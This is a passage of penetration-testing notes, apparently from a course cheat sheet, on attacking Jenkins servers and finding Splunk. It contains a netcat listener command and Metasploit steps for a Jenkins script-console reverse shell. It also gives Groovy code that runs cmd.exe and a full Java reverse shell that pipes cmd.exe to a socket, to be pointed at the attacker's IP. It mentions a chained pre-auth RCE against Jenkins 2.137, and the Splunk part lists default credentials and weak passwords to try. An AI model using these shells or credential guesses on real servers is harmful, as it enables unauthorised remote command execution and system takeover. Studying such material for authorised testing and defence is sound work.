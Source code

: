 #### Starting a netcat listener
```Shell
nc -lnvp 8443
```

#### Metasploit module for obtaining a reverse shell on Jenkins Server
```Shell
use exploit/multi/http/jenkins_script_console
show targets
set TARGET <target-id>
show options
exploit
```

#### Running commands on a Windows-based Jenkins install
```groovy
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```

#### Java reverse shell to gain command execution on a Windows host
```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
Swap out `localhost` and the port for our IP address and listener port

### Miscellaneous Vulnerabilities
One recent exploit combines two vulnerabilities, CVE-2018-1999002 and CVE-2019-1003000 to achieve pre-authenticated remote code execution, bypassing script security sandbox protection during script compilation. This exploit works against Jenkins version 2.137.


## Splunk - Discovery & Enumeration

### Discovery
- Prevalent in internal networks and often runs as root on Linux or SYSTEM on Windows systems
- Uncommon that it'll be externally facing
- The Splunk web server runs by default on port 8000
- On older versions of Splunk, the default credentials are `admin:changeme`, which are conveniently displayed on the login page.
- If the default credentials do not work, it is worth checking for common weak passwords such as `admin`, `Welcome`, `Welcome1`, `Password123`, etc.
